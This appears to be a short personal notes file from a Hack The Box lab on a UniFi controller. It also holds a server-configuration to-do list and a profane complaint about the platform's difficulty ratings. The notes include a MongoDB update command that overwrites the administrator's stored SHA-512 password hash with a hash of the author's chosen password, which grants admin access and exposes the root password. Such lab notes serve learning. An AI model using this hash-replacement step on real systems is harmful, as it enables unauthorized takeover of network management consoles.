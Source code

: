 # we identified the x_shadow field as a shadow file hash `sha512crypt $6$, SHA512 (Unix) 2` in hashcat
# *instead of cracking it,* we use the update command to change the hash generated using `mkpasswd -m sha-512 P3@ceW1thHTB` and log in as administrator the unifi network administrator console
`db.admin.update(
	{
		"_id":ObjectId("61ce278f46e0fb0012d47ee4")
	}
	{
		$set: {
			"x_shadow" : "$6$zyPslwl.HhmblRYH$.39gZbIPfAdOa1IxGeP16F0jarpNztFp5pMyeLAi0HuviqjpQdyd/X7te0Z6fpKNIZ6zP0aBoHriM7yg5OOL60"
		}
	}
)`
# *after loggin in,* we find that we can view the root user password in the device authentication section under `Settings > Site`

-------------------------------------------------------------------------------------

# Tasks:
1. configure ftp
2. configure nfs
3. configure mariadb
4. configure nginx
5. configure apache
5. configure CMSs
	1. wordpress
	2. magento
	3. drupal
	4. joomla
+ play around with them

# what i fucking hate about hack the box
1. difficult level. what the fuck is easy????????? according to whom????? mr.robot crew?

# hack the box is about making you learn the technology and what can be done to hack it